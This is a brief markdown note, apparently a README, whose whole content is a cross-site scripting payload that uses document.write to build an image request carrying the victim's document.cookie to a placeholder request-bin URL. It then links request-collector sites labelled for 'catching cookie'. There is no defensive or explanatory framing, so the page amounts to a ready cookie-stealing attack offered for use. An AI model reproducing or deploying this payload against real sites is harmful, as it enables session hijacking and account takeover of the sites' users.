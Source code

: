 
# Script 

```javascript
<script>document.write('<img src=\"URLREQUESTBIN?stealer='+document.cookie+'\"');</script>

```

# Site for catching cookie
[Request Bin](http://requestbin.net/)

# Site for test catching
[ReqBin](https://reqbin.com/)






